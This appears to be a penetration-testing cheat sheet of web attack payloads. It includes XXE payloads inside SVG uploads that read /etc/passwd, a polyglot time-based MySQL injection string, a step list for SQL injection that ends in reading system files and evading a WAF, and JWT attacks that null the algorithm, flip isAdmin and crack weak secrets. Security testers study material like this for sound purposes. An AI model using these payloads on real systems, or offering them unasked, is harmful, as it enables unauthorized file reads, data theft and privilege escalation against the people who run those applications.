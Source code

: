#### XXE File Upload SVG

```powershell
#https://scottc130.medium.com/understanding-xxe-vulnerabilities-7e389d3972c2

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  

```



#### SQL Injection

```powershell

1)Error generation with untrusted input or special characters.
2)Finding total number of columns with order by or group by or having.
3)Finding vulnerable columns with union operator.
4)Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat().
5)Extracting full table and column names with group_concat() and extracting the data with same function.
6)Checking file privileges with file_priv.
7)Accessing system files with load_file(). and advance exploitation afterwards.
WAF evasion if any.
```


#### Ultimate MySQL Injection Payload (Detetify)

```sql
#https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/

IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/


```

#### JWT Exploiting

```powershell
#https://github.com/wisec/OWASP-Testing-Guide-v5/blob/master/Testing_for_APIs.md

Full details above.

1) Access JWT Debugger too base64 decode and ensure that nothing sensitive is being transferred. Make sure no PII is being transferred etc.
	2) Try chang esome values and obtain IDOR, like `id` or `isAdmin`
	3) Modigy ALG attribute, set HS256 to null


4) JWT Crack - https://github.com/brendan-rius/c-jwt-cracker - Secret used to encrypt tokens may be weak.
```
